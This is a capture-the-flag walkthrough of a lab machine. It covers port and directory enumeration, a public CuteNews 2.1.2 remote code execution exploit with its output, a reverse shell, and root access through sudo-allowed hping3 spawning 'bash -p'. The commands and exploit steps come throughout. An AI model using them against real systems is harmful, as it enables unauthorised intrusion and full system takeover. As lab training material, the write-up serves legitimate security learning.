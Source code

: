 -> I started by enumerating the machine
```
┌──(root㉿kali)-[/home/astra]
└─# nmap -p- --min-rate 10000 -Pn -sV 192.168.209.128
Starting Nmap 7.93 ( https://nmap.org ) at 2023-02-26 13:12 EST
Nmap scan report for 192.168.209.128
Host is up (0.13s latency).
Not shown: 65530 closed tcp ports (reset)
PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
80/tcp  open  http     Apache httpd 2.4.38 ((Debian))
88/tcp  open  http     nginx 1.14.2
110/tcp open  pop3     Courier pop3d
995/tcp open  ssl/pop3 Courier pop3d
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 16.24 seconds
```
-> We found a couple of open ports, but nothing to much, going to web it just shows apache2 default page, so I use gobuster to find hidden directories
```
┌──(root㉿kali)-[/home/astra]
└─# gobuster dir -u http://192.168.209.128/ -w /usr/share/wordlists/dirb/common.txt -t 150
===============================================================
Gobuster v3.4
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.209.128/
[+] Method:                  GET
[+] Threads:                 150
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.4
[+] Timeout:                 10s
===============================================================
2023/02/26 13:17:16 Starting gobuster in directory enumeration mode
===============================================================
/.hta                 (Status: 403) [Size: 280]
/.htaccess            (Status: 403) [Size: 280]
/.htpasswd            (Status: 403) [Size: 280]
/core                 (Status: 301) [Size: 317] [--> http://192.168.209.128/core/]
/docs                 (Status: 301) [Size: 317] [--> http://192.168.209.128/docs/]
/favicon.ico          (Status: 200) [Size: 1150]
/index.html           (Status: 200) [Size: 10701]
/index.php            (Status: 200) [Size: 6175]
/libs                 (Status: 301) [Size: 317] [--> http://192.168.209.128/libs/]
/manual               (Status: 301) [Size: 319] [--> http://192.168.209.128/manual/]
/server-status        (Status: 403) [Size: 280]
/skins                (Status: 301) [Size: 318] [--> http://192.168.209.128/skins/]
/uploads              (Status: 301) [Size: 320] [--> http://192.168.209.128/uploads/]

===============================================================
2023/02/26 13:17:21 Finished
===============================================================
```
-> Found an index.php, getting there its a login page
![loginpageweb](https://user-images.githubusercontent.com/47869173/221430595-f203004e-707f-4ef9-8d04-30e1ea3bc32a.png)

-> We found its "powered by Cutenews 2.1.2", so I go to msfconsole to search for an exploit
```
msf6 > searchsploit CuteNews 2.1.2
[*] exec: searchsploit CuteNews 2.1.2

---------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                        |  Path
---------------------------------------------------------------------------------------------------------------------- ---------------------------------
CuteNews 2.1.2 - 'avatar' Remote Code Execution (Metasploit)                                                          | php/remote/46698.rb
CuteNews 2.1.2 - Arbitrary File Deletion                                                                              | php/webapps/48447.txt
CuteNews 2.1.2 - Authenticated Arbitrary File Upload                                                                  | php/webapps/48458.txt
CuteNews 2.1.2 - Remote Code Execution                                                                                | php/webapps/48800.py
---------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
msf6 > 
```
-> We found a RCE (Remote Code Execution), so we will use it!

-> https://www.exploit-db.com/exploits/48800 

-> After downloading the script, we need to do a few tweaks, since our server dont use /CuteNews/index.php, its direct to index.php, after that we execute the script!
```
┌──(root㉿kali)-[/home/astra]
└─# python3 48800.py



           _____     __      _  __                     ___   ___  ___ 
          / ___/_ __/ /____ / |/ /__ _    _____       |_  | <  / |_  |
         / /__/ // / __/ -_)    / -_) |/|/ (_-<      / __/_ / / / __/ 
         \___/\_,_/\__/\__/_/|_/\__/|__,__/___/     /____(_)_(_)____/ 
                                ___  _________                        
                               / _ \/ ___/ __/                        
                              / , _/ /__/ _/                          
                             /_/|_|\___/___/                          
                                                                      

                                                                                                                                                   

[->] Usage python3 expoit.py

Enter the URL> http://192.168.209.128  
================================================================
Users SHA-256 HASHES TRY CRACKING THEM WITH HASHCAT OR JOHN
================================================================
[-] No hashes were found skipping!!!
================================================================

=============================
Registering a users
=============================
[+] Registration successful with username: A0yMERYyeh and password: A0yMERYyeh

=======================================================
Sending Payload
=======================================================
signature_key: 26c5ac9d8a393b84ed1db578eef6f2fc-A0yMERYyeh
signature_dsi: 3102d2e120fff873c67b5073149d75f2
logged in user: A0yMERYyeh
============================
Dropping to a SHELL
============================

command > 
```
-> Now we got a shell, now I will reverse a connection with netcat
![reversenetcatshell](https://user-images.githubusercontent.com/47869173/221430580-e8320271-71e1-418f-8a9c-c25377f9032c.png)

-> We are in, lets get the first flag!
```
www-data@cute:/$ cd home
cd home
www-data@cute:/home$ ls
ls
fox
www-data@cute:/home$ cd fox
cd fox
www-data@cute:/home/fox$ ls
ls
user.txt
www-data@cute:/home/fox$ cat user.txt
cat user.txt
Your flag is in another file...
www-data@cute:/home/fox$ 
```
-> When trying, I found an user called fox, I know the flag is called local.txt so I do a find command and search for it!
```
www-data@cute:/var/www/html/uploads$ cat /var/www/local.txt
cat /var/www/local.txt
cf8de8342b5284ce974a875b5c3c75d7
www-data@cute:/var/www/html/uploads$ 
```
-> And we got the first flag, now we need to escalate privileges, I look for things that can be executed with sudo permissions on the current user
```
www-data@cute:/var/www/html/uploads$ sudo -l
sudo -l
Matching Defaults entries for www-data on cute:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User www-data may run the following commands on cute:
    (root) NOPASSWD: /usr/sbin/hping3 --icmp
www-data@cute:/var/www/html/uploads$ 
```
-> Since I have a non-TTY shell, I will try to spawn a TTY shell
```
www-data@cute:/var/www/html/uploads$ python3 -c "__import__('pty').spawn('/bin/bash')"
<$ python3 -c "__import__('pty').spawn('/bin/bash')"                                                                                                    
www-data@cute:/var/www/html/uploads$ sudo /usr/sbin/hping3                                                                                              
sudo /usr/sbin/hping3                                                                                                                                   
                                                                                                                                                        
We trust you have received the usual lecture from the local System                                                                                      
Administrator. It usually boils down to these three things:                                                                                             
                                                                                                                                                        
    #1) Respect the privacy of others.                                                                                                                  
    #2) Think before you type.                                                                                                                          
    #3) With great power comes great responsibility.                                                                                                    
                                                                                                                                                        
[sudo] password for www-data:   
```
-> Now we got a TTY shell, and can continue, searching for a way to get root with hping3 I found this on GTFObins // hping3 ; /bin/bash -p
```
www-data@cute:/var/www/html/uploads$ hping3
hping3
hping3> /bin/bash -p
/bin/bash -p
bash-5.0# id
id
uid=33(www-data) gid=33(www-data) euid=0(root) egid=0(root) groups=0(root),33(www-data)
bash-5.0# cat proof.txt
cat proof.txt
3770530a8eb23d7dd7174888b61acad2
bash-5.0# 
```
-> And we got the flag!



